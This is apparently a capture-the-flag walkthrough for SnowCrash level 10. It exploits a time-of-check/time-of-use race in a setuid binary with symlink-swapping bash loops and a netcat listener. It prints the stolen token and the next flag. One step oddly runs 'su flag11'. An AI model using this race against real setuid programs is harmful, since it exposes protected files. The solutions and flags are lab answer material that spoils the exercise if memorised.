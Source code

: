 # Level 10

- Once logged in, you will see a binary file `level10` and the `token` file.

```
???$ ssh level10@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level10@localhost's password:
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ ls -ls
total 16
12 -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
 4 -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Yes, it looks same is the previous line, but let's check what's the differernce.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$
```
there is a token, but the access is only granted for `flag10` user.

```
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

and check the binary
```
level10@SnowCrash:~$ strings level10
[...]
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
[...]
```

let's check how this works
```
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff784, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                  = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)    = 31
+++ exited (status 31) +++
level10@SnowCrash:~$
```
Here, the `access` function is called, to check the permission of the file.

on manual of access `man 2 access`, the following is presented
```
ACCESS(2)                    Linux Programmer's Manual                   ACCESS(2)
...
NOTES
       Warning: Using access() to check if a user is authorized to,  for  example,
       open a file before actually doing so using open(2) creates a security hole,
       because the user might exploit the short time interval between checking and
       opening the file to manipulate it.  For this reason, the use of this system
       call should be avoided.  (In the example just described, a  safer  alterna-
       tive  would be to temporarily switch the process's effective user ID to the
       real ID and then call open(2).)
...
```
[`TOCTOU race`](https://stackoverflow.com/questions/7925177/access-security-hole) is mentioned about this security hole.

In order to capture the `smaall gap` in between `access()` and `open()` the following will be prompted.

First, run `netcat` on port `6969`

```
level10@SnowCrash:~$ nc -lk 6969
```

and creating and run script that symlinks with the `token` file,

```
#!/bin/bash

while true; do
        touch /tmp/symlink
        rm -f /tmp/symlink
        ln -s /home/user/level10/token /tmp/symlink
        rm -f /tmp/symlink
done
```

and execute the `level10` binary with symlink created

```
#!/bin/bash

while true; do
	./level10 /tmp/symlink 127.0.0.1;
done
```

and listen on the port `6969` for capturing any incoming data

```
level10@SnowCrash:~$ nc -lk 6969 &
[...]
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
[...]
```
with the flag achieved, let's try logging into `flag11`

```
level10@SnowCrash:~$ su flag11
Password:
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : feulo5b72j7edeahuete3no7c
flag11@SnowCrash:~$
```
